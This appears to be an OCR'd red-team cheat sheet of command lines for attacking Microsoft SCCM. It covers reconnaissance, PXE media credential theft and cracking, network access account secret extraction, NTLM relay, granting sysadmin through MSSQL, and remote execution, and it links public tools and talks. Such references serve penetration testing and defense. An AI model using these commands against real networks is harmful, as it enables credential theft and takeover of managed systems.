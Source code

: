 
# Reconnaissance Commands:

## Windows:
- Control Panel > Configuration Manager
- ADSI search: Get-ADObject -Filter 'ObjectClass -eq "mSSMSManagementPoint"' -Property *
- WMI query: Get-WmiObject -Namespace "root\ccm" -Class SMS_Client
- Sharp SCCM: SharpSCCM.exe local site info

## Linux:
- SCCM Hunter: sccm_hunter.py find
- SCCM Hunter SMB: sccm_hunter.py smb

## Operating System Deployment Exploitation:

### PXE Thief (Windows):
- pxe_thief.py option 1
- pxe_thief.py option 2 -s
- pxe_thief.py option 5 -f
- hashcat -m 19850 
- pxe_thief.py option 3 -f -p
### PXE Thief (Linux):
- pxe_thief.py option 2 -s
- pxe_thief.py option 5 -f
- hashcat -m 19850 
- pxe_thief.py option 3 -f -p
## Network Access Account Exploitation:

### Sharp SCCM:
- SharpSCCM.exe get secrets
- SharpSCCM.exe local secrets -m disk
- SharpSCCM.exe local secret

### Linux (Clement Lavollette's tool):
- sccm_hunter.py get secrets

## Push Account Exploitation:

### Adam Chester's SCCMWTF:
- sccmwtf.py create_machine
- sccmwtf.py change_password -m -p
- sccmwtf.py get naa policy -m -s
### Matt Crill's NTLM Relay:
- ntlmrelayx.py -t http:// -smb2support -c

## SCCM Administrator Privilege Escalation:

### MSSQL Client:
- proxychains mssqlclient.py -windows-auth -no-pass
- USE CM_
- EXEC sp_addsrvrolemember '', 'sysadmin'
- EXEC sp_addrolemember 'ConfigMgr DViewAccess', ''
## Post-Compromise Actions:
- SharpSCCM.exe exec -c -r

# Resources: 

## Tools:
SCCMHunter: https://github.com/garrettfoster13/sccmhunter
pxethief: https://github.com/MWR-CyberSec/**PXEThief
SCCMwtf: https://github.com/xpn/sccmwtf
SharpSCCM: https://github.com/Mayyhem/SharpSCCM
SCCMSecrets: https://github.com/synacktiv/SCCMSecrets
## Articles: 

- https://www.blackhillsinfosec.com/wp-content/uploads/2023/08/SLIDES_SCCM-Exploitation-The-First-Cred-Is-The-Deepest-II-Gabriel-Prudhomme-BHIS.pdf
- Talk: https://www.youtube.com/watch?v=W9PC9erm_pI
- https://www.synacktiv.com/en/publications/sccmsecretspy-exploiting-sccm-policies-distribution-for-credentials-harvesting-initial
- https://www.guidepointsecurity.com/blog/sccm-exploitation-evading-defenses-and-moving-laterally-with-sccm-application-deployment/